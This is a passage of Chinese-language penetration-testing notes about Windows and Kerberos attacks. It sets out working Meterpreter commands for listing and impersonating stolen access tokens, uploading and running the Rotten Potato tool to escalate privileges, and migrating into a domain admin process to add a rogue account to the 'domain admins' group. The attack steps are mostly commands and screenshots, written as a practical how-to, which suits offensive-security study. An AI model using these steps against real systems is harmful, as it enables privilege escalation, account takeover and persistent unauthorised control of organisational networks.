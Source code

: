 [![2evHtP.png](https://z3.ax1x.com/2021/05/31/2evHtP.png)](https://imgtu.com/i/2evHtP)

客户端请求证书的过程如下：

+ 客户端向认证服务器发送请求，要求得到证书。
+ 认证服务器收到请求后，将包含客户端密钥的加密证书发送给客户端。该证书包含服务器 Ticket (包含由服务器密钥加密的客户机身份和一份会话密钥) 和一个临时加密密钥 (又为会话密钥，Session Key)。当然，认证服务器也会向服务器发送一份该证书，使服务器能够验证登录的客户端身份。
+ 客户端将 Ticket 传送给服务器。如果服务器确认该客户端身份，就允许它登录服务器。

客户端登录服务器后，攻击者就能通过入侵服务器来窃取客户端的令牌。

#### 令牌窃取

在获得目标机器的 meterpreter shell 后，可以输入 ``use incognito`` 命令，然后输入 ``list_tokens -u`` 命令，列出可用的令牌：

[![2m9V8x.png](https://z3.ax1x.com/2021/05/31/2m9V8x.png)](https://imgtu.com/i/2m9V8x)

这里有两种类型的令牌：一种是 Delegation Tokens，也就是授权令牌，它支持交互登录 (例如，可用通过远程桌面登录及访问)；另一种是 Impersonation Tokens，也就是模拟令牌，它支持非交互式的会话。令牌的数量取决于 meterpreter shell 的访问级别。假设已经获得了一个系统管理员的授权令牌，如果攻击者可用伪造这个令牌，便可用拥有它的权限。

若有可利用的令牌的话，可用：

```
impersonate_token xxxxx\\xxxx
```

[![2mCr0e.png](https://z3.ax1x.com/2021/05/31/2mCr0e.png)](https://imgtu.com/i/2mCr0e)

假冒令牌用户进行渗透测试。  **注意：**在输入主机名\\用户名时，需要输入两个反斜杠(\\\\)。

#### Rotten Potato 本地提权分析

如果目标系统中存在有效令牌，可用通过 Rotten Potato 程序快速模拟用户令牌来实现权限提升。

```
use incognito
list_tokens -u
```

[Rotten Potato](https://github.com/foxglovesec/RottenPotato)

将 Rotten Potato 目录下的 rottenpotato.exe 可执行文件上传到目标机器中：

```
execute -HC -f rottenpotato.exe 
impersonate_token "xxx\\xxx"
```

[![2mkvG9.png](https://z3.ax1x.com/2021/05/31/2mkvG9.png)](https://imgtu.com/i/2mkvG9)

[![2mkzx1.png](https://z3.ax1x.com/2021/05/31/2mkzx1.png)](https://imgtu.com/i/2mkzx1)

#### 添加域管理员

假设网络中设置了域管理进程。在 meterpreter 会话窗口中输入 ``ps`` 命令，查看系统进程。找到域管理进程，并使用 ``migrate`` 命令迁移到该进程。在 meterpreter 控制台中输入 ``shell``，进入命令行界面。添加域用户：

```
net user name password /ad /domain
net group "domain admins" name /ad /domain	#把此用户添加到域管理员组中
net group "domain admins" /domain		#查看域管理员组
```
